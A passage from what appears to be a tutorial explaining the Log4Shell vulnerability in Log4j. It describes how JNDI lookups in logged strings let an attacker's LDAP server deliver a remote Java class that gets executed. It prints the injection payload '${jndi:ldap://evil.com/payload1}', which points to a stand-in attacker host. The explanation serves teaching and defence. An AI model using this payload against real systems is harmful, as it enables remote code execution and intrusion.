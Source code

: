 Now that we are armed with this key concepts, let’s talk about how we can exploit Log4j vulnerability.

Log4Shell works by abusing a feature in Log4j that allows users to specify custom code for formatting a log message.

This feature allows Log4j to, for example, log not only the username associated with each attempt to log in to the server but also the person’s real name, if a separate server holds a directory linking user names and real names. To do so, the Log4j server has to communicate with the server holding the real names.

To be able to do this, Log4j allows logged messages to contain format strings that reference external information through the JNDI. Unfortunately, as with any user-controlled data, this feature opens the door for nefarious activities.

When Log4j finds the following string in any field of a log message:

```sh
${jndi:ldap://evil.com/payload1}
```

It instructs the JNDI to ask the LDAP server at `evil.com` for the `payload1` object.

The attacker-controlled LDAP server responds with information that includes a remote Java class file, for instance, `http://evil.com/payload2.class`.

By design, JNDI will execute Java classes that a LDAP server references. As such, JNDI will automatically request the file from `http://evil.com/`,  download the Java class `payload2.class` and execute it. Boom 🎇

![Log4shell](\assets\img\Log4shell.png)
